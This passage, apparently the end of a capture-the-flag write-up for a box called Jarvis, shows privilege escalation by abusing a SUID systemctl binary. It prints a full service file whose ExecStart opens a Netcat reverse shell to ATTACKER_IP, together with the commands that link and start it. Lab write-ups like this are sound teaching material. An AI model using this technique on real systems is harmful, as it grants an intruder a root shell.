

### Exploiting Systemctl
At this point, we can grab the user flag under their home directory and start looking for routes to escalate privileges to root. Listing Sudo permissions shows that we need a password, but while searching for binaries with the SUID bit set, I find we can run `systemctl` as root.



[GTFOBins](https://gtfobins.org/gtfobins/systemctl/#shell) has a great way of grabbing a shell via this binary, but I'll alter it to proc a Netcat reverse shell. We're essentially just creating a new service to run and having the **ExecStart** line contain our command payload which will be executed on startup.

```
pepper@jarvis:~$ cat >privesc.service<<EOF
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash ATTACKER_IP 443'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target
EOF

pepper@jarvis:~$ systemctl link /home/pepper/privesc.service
pepper@jarvis:~$ systemctl start privesc
```

After standing up a Netcat listener and starting the new service we are granted a root shell on the box. Here, we can grab the final flag under the root directory to complete this challenge. 



That's all y'all, this box was nice as it forced us to manually test for injection attacks in SQL queries and scripts with the added privesc being realistic. I hope this was helpful to anyone following along or stuck and happy hacking!
